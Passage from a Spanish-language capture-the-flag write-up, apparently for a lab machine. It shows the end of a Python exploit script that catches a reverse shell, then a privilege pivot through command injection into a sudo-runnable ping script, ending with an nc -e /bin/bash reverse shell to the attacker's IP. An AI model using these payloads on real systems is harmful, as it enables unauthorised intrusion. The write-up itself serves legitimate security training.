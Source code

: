 ```python
def makeRequest():
    r = request.get(create_file)
    r = request.get(exec_file)

if __name__ == '__main__':
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()

```

### User pivoting al usuario pepper {-}

Hemos podido comprobar que no podiamos leer el fichero `user.txt` siendo el usuario `www-data`. Tendremos que convertirnos en el usuario
**pepper** antes de intentar rootear la maquina.

```bash
id
sudo -l
```

Aqui vemos que podemos ejecutar el script `/var/www/Admin-Utilities/simpler.py` como el usuario **pepper** sin proporcinar contraseña.

Si lanzamos el script con el commando `sudo -u pepper /var/www/Admin-Utilities/simpler.py` vemos que es una utilidad que lanza un ping a maquinas
definidas por el commando `-p`.

si nos ponemos en escucha por trazas **ICMP** con el commando `tcpdump -i tun0 icmp -n` y que lanzamos el script:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> 10.10.14.7
```

Recibimos la traza **ICMP**.

Intentamos ver si podemos injectar commandos con el script.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> 10.10.14.$(echo 7)
```

Aqui tambien recibimos la traza **ICMP** lo que significa que el programa interpreta codigo.

Si nos ponemos en escucha por el puerto 443 con `nc -nlvp 443` y que le ponemos

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(nc -e /bin/bash 10.10.14.7 443)
```
